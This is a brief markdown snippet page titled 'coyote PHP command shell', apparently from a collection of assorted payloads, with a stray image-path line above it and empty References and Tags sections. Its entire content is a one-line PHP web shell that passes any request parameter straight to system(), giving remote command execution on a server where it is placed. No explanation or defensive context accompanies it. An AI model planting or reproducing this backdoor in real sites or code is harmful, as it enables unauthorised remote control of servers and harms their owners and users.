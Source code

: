 # coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


# References

Tags:
    #assorted
